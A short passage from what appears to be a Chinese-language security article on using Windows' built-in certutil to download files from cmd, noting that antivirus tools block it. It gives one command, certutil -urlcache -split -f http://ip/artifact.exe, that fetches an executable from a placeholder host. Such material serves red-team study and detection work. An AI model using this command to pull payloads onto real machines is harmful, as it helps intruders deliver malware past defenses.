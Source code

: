 [![](assets/1701612219-b97b105d5404565f46c5d5b0d4e043c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152036-849df9a6-ca85-1.png)

# certutil 下载文件

一般我最常使用的`certutil`的功能就是在 cmd 环境下下载文件，因为`certutil`是 windows 自带的 exe，所以在使用的时候会比其他 exe 或者 vbs 更加方便。但是因为在下载文件的过程中也会创建进程，所以也遭到了各大杀软的拦截。

一般使用`certutil`下载文件的命令为

```bash
certutil -urlcache -split -f http://ip/artifact.exe
```
